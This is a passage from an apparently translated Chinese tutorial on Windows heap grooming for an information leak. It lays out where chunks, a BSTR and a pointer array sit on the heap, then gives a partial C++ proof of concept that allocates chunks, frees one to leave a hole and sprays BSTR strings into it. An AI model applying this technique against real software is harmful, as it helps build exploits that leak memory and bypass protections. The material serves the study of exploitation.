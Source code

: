 > <ul>
- 另一个洞将用于放置我们想要泄漏的程序对象。新布局可能如下所示：
</ul>

```
[ Chunk 1 ][ BSTR ][ Free Chunk ]
```

**6.重复步骤4（创建对象泄漏）**

> <ul>
- 在最后一个空闲块中，我们希望用我们希望泄漏的对象填充它。要做到这些，你需要选择允许你控制堆分配的东西，你可以在其中保存同一对象（可以是任何内容）的指针。vector或类似数组的东西对于这种工作会很有用。
- 接着，你可能需要尝试不同的大小来找到要进入洞中的那个程序对象。
- 新的分配应该接管最后一个块，如下所示：
</ul>

```
[ Chunk 1 ][ BSTR ][ Array of pointers ]
```



## 具体的实施

这个POC演示了如何在C++中实现上述过程：

```
#include &lt;Windows.h&gt;
#include &lt;comdef.h&gt;
#include &lt;stdio.h&gt;
#include &lt;vector&gt;
using namespace std;

#define CHUNK_SIZE 0x190
#define ALLOC_COUNT 10

class SomeObject `{`
public:
  void function1() `{``}`;
  virtual void virtual_function1() `{``}`;
`}`;

int main(int args, char** argv) `{`
  int i;
  BSTR bstr;
  HANDLE hChunk;
  void* allocations[ALLOC_COUNT];
  BSTR bStrings[5];
  SomeObject* object = new SomeObject();
  HANDLE defaultHeap = GetProcessHeap();

  for (i = 0; i &lt; ALLOC_COUNT; i++) `{`
    hChunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    memset(hChunk, 'A', CHUNK_SIZE);
    allocations[i] = hChunk;
    printf("[%d] Heap chunk in backend : 0x%08xn", i, hChunk);
  `}`

  HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[3]);

  for (i = 0; i &lt; 5; i++) `{`
    bstr = SysAllocString(L"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    bStrings[i] = bstr;
    printf("[%d] BSTR string : 0x%08xn", i, bstr);
  `}`
```